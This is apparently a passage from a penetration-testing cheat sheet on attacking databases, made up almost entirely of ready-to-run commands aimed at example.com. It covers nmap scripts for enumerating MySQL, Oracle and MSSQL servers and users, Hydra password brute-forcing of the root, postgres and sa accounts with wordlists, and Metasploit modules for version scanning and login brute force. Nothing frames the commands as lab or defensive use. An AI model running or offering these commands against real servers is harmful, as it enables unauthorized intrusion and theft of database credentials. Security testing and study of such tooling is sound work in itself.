 ### 1. Database Discovery

#### Nmap Database Scripts
```bash
# Scan for databases
nmap -sV --script="mysql-*,oracle-*,mssql-*" example.com

# MySQL discovery
nmap -p 3306 --script mysql-databases,mysql-users example.com

# Oracle discovery
nmap -p 1521 --script oracle-sid-brute example.com

# MSSQL discovery
nmap -p 1433 --script ms-sql-info example.com
```

### 2. Database Brute Force

#### Hydra (Password Cracking)
```bash
# MySQL brute force
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://example.com

# PostgreSQL brute force
hydra -l postgres -P wordlist.txt postgres://example.com

# MSSQL brute force
hydra -l sa -P passwords.txt mssql://example.com
```

### 3. Database Exploitation

#### Metasploit Database Modules
```bash
msfconsole

# MySQL enumeration
use auxiliary/scanner/mysql/mysql_version
set RHOSTS example.com
run

# MySQL brute force
use auxiliary/scanner/mysql/mysql_login
set RHOSTS example.com
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# MSSQL enumeration
use auxiliary/scanner/mssql/mssql_ping
set RHOSTS example.com
run
```
